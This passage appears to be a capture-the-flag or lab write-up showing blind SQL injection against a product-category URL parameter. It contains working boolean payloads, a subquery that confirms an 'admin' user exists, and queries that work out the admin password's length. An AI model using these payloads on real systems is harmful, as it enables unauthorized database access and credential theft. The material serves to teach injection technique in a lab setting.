 ```url
/products?category=Electronics') or 1=1--
```

<img width="886" height="188" alt="image" src="https://github.com/user-attachments/assets/b229eda3-b128-4f74-83df-7b1a1119744d" />

> now we maked sure it is blind sqli but wait another check

```url
/products?category=Electronics') and 2=1--
```

<img width="930" height="164" alt="image" src="https://github.com/user-attachments/assets/20a079ef-3767-43da-906e-5a32c3f72a2b" />

```url
/products?category=Electronics') and 1=1--
```

<img width="904" height="204" alt="image" src="https://github.com/user-attachments/assets/f9d3d4f5-91f5-4960-aa2f-4471b83dd620" />


###


```
Electronics') and (SELECT  'a' FROM users WHERE username='admin')='a' --
```

### if :

- **`Available products found.`** : there is user called **`admin`**
- **`No products found matching your search.`** : user not found
 

<img width="1406" height="177" alt="image" src="https://github.com/user-attachments/assets/fbdb1bd5-0af9-4478-a6d1-8423d4239f44" />

> we previously know that there is user called **`admin`**

```ruby

  # Seed data
  db.execute("INSERT INTO users (username, password, is_admin) VALUES (?, ?, ?)", ['admin', ENV['ADMIN_PASSWORD'], 1])
  db.execute("INSERT INTO users (username, password) VALUES (?, ?)", ['alice', ENV['ALICE_PASSWORD']])
```

<img width="454" height="244" alt="image" src="https://github.com/user-attachments/assets/718029f1-bce0-4edb-bf5a-13f0a59812f5" />



---

### now find password lingth

```sql
Electronics') AND LENGTH((SELECT password FROM users WHERE username='admin'))=8 --

or

Electronics') and (SELECT  'a' FROM users WHERE username='admin' AND LENGTH(password)=1 )='a' --

```
